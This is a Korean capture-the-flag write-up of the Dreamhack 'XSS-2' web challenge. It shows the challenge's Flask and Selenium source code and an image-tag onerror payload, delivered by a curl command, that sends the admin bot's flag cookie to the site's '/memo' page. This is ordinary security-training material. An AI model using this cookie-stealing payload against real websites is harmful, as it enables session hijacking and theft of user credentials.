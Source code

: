 ```yaml
---
title: "[CTF] 드림핵 XSS-2"
date: 2025-09-18 18:10:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-2"
author: "송지민"
toc: true
---
```


## 문제 개요 (간단히)
이번 문제는 이전 XSS-1과 구조는 비슷하지만 `/vuln` 엔드포인트가 이제 **템플릿 렌더링(render_template)** 을 사용한다는 점이 다르다. 직접적으로 `<script>`를 반사해도 바로 실행되지 않기 때문에, 다른 방식(태그 속성 기반 실행)을 생각해야 했다.

- `/vuln` : `render_template("vuln.html")` 로 템플릿을 렌더링
- `/memo` : 전달된 `memo` 값을 누적 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 셀레니움 봇에게 전달 (봇은 이전과 동일하게 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법 (풀이 기록 — 블로그용 서술 방식)
`/vuln`이 템플릿을 렌더링하니 단순히 `<script>`를 넣어도 실행되지 않는 걸 확인했다. 그래서 `innerHTML` 개념을 생각했고, HTML 태그 속성(onerror 등)을 이용하면 스크립트가 실행될 수 있다는 점에 착안했다.

이미지 태그의 `onerror`를 이용하면 이미지 로드 실패 시 자바스크립트를 실행할 수 있으므로, `param`에 다음과 같은 값을 넘기면 된다.

### 내가 사용한 페이로드 (그대로)
```html
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
```

### PoC 요청 (내가 실제로 보낸 curl)
```bash
curl -X POST -F 'param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열고, 템플릿 내부에 삽입된 이미지 태그가 로드 실패(`src="XSS-2"`)로 인해 `onerror`가 실행된다.
- `onerror`가 실행되면 `location.href='/memo?memo='+document.cookie` 로 이동하여 `memo`에 FLAG가 저장된다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름 (짧게)
1. 공격자: `POST /flag` with `param=<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇: `/vuln`에서 이미지 로드 실패 → `onerror` 실행 → `/memo?memo=flag=<FLAG>` 호출  
4. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나 (한 줄)
템플릿 렌더링 환경에서도 **태그 속성(onerror 등)은 실행될 수 있음**을 이용해, 이미지 로드 실패를 트리거하여 `document.cookie`(FLAG)를 `/memo`로 전송했다.

---

## 마무리(짧게)
이번 문제(XSS-2)는 템플릿 렌더링으로 인해 직접 스크립트를 반사해도 실행되지 않을 때, 속성 기반 실행(onerror 등)을 떠올려 우회한 전형적 케이스였다. 간단하게 찾고 바로 해결한 문제라 기록해뒀다.

